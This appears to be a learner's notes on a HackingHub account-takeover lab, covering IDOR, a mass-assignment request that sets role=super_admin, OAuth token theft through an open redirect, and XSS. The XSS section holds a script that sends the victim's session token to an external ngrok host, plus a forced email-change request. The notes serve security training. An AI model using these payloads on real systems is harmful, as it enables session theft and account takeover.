






# Account Takeover (HackingHub)

## IDOR

```text
GET https://0hl3b40h.eu1.ctfio.com/api/v1/user/2
```



*Captura omitida por posibles datos sensibles.*

## Invite Systems





### 1



*Captura omitida por posibles datos sensibles.*

## Mass Assigment

Response,
```json
const user = {"id":1,"username":"ben","role":"user"};
```

```bash
curl 'https://69xknhzf.eu1.ctfio.com/settings' --compressed -X POST -H 'Cookie: token=<REDACTED_TOKEN>  
167186173' --data-raw 'website=http%3A%2F%2Fwww.google.com&phone=123456789&bio=Test&role=super_admin'
```

*Captura omitida por posibles datos sensibles.*

## OAuth Flow using Open Redirect

```javascript
document.location.hash.substr(1)
```

```text
https://auth.fluorite.ctfio.com/auth?client_id=1&redirect_url=https://fluorite.ctfio.com/redirect?url=https://e949-83-213-97-233.ngrok-free.app/test.html&response_type=token
```

```html
<html>
<head>
    <title>Hello World :-)</title>
</head>
<body>

Hello World :-)
<script>
    window.location = 'x/' + document.location.hash.substr(1);
</script>

</body>
</html>
```



## XSS

```html
">
```

1.js
```javascript
alert(1);//
```

2.js
```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', '/api/v1/me/session', true);
xhr.onload = function() {
    if (xhr.status === 200) {
        fetch('https://664a-83-213-97-233.ngrok-free.app/POC/?x=' + btoa(xhr.responseText));
    }
};
xhr.send();

alert(1);
```



```json
{"session":{"token":"Authentication: Bearer <REDACTED_BEARER_TOKEN>"}}
```

### 1

```javascript
var xhr = new XMLHttpRequest();
xhr.open('POST', '/change-email', true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send('email=redacted@example.invalid');
```
